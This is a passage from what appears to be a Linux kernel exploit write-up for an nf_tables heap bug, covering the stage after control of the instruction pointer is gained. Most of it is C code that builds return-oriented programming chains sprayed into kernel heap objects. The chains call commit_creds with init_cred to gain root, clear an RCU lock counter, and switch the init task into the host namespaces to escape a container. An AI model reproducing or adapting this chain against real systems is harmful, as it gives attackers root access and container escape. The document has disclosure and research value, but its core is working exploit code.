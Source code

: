 ### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it. The ROP payload of `kmalloc-cg-192` is stored in `nft_rule->data` when the rule is created during the heap spraying. The ROP payload of `kmalloc-cg-96` is stored by spraying `nft_table->udata` after freeing the rule used in the heap spray.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}

void make_payload2(uint64_t* data){
    int i = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
    data[i++] = -0xffff;
    data[i++] = kbase + mov_rax_rcx_ret;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```